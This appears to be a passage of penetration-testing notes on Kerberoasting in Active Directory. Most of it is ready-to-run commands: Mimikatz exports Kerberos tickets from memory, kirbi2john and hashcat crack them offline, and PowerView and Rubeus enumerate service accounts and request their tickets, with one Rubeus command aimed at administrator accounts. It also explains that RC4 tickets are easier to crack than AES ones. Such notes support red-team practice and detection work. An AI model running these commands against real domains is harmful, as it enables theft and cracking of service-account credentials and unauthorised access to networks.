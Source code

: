 ```PowerShell

# Dump from memory using Mimikatz
mimikatz.exe
base64 /out:true # Write the hashes to base64 in the terminal, otherwise it'll be .kirbi files
kerberos::list /export
```
From here we can simply crack on our Linux machine using [`kirbi2john`](https://raw.githubusercontent.com/nidem/kerberoast/907bf234745fe907cf85f3fd916d1c14ab9d65c0/kirbi2john.py) and `hashcat`:
```shell
# Create a .kirbi file to crack
echo "<base64>" |  tr -d \\n  | base64 -d > out.kirbi

# Extracting using kirbi2john (it'll go to crack_file)
python2.7 kirbi2john.py sqldev.kirbi

# Modifying the crack file for use on hashcat (Convert it to a ticket)
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > outfile

# Crack with hashcat 
hashcat -m 13100 <file> <wordlist>
```
There's also an automated way we can grab tickets. First with [`PowerView`](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1):
```PowerShell
# Find TGS tickets
Import-Module .\PowerView.ps1
Get-DomainUser * -spn | select samaccountname

# Target a user
Get-DomainUser -Identity <user> | Get-DomainSPNTicket -Format Hashcat

# Export all tickets to .csv
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\<out>.csv -NoTypeInformation

# Check supported encryption types (if it's a 0, default is RC4)
Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes
```
There's also [`Rubeus`](https://github.com/GhostPack/Rubeus) for exporting tickets:
```PowerShell
# Get options
.\Rubeus.exe

# Show the list of kerberoastable users
.\Rubeus.exe kerberoast /stats

# Get hashes with admincount set to 1
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap

# Target a user
.\Rubeus.exe kerberoast /user:<user> /nowrap\
# Use the /tgtdeleg to reuest for RC4 only tickets
```
Note that Kerberoasting tools usually request `RC4` hashes since they're easier to crack. Hashes that begin with `$krb5tgs$23$*` are `RC4`, whereas hashes that begin with `$krb5tgs$18$*` are `AES-256`. 
